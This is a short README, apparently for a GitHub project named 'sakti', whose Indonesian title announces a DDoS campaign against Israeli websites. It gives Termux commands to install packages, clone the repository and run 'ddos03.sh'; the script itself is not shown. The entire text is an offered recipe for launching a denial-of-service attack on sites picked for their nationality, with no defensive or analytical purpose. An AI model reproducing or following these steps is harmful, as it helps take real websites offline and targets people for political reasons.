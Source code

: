 # sakti

# gerakan DDOS web Israel

$ pkg update && pkg upgrade                    
$ pkg install figlet                    
$ pkg install git                    
$ git clone https://github.com/MrVirusSpm-07/sakti    
$ cd sakti                     
$ bash ddos03.sh
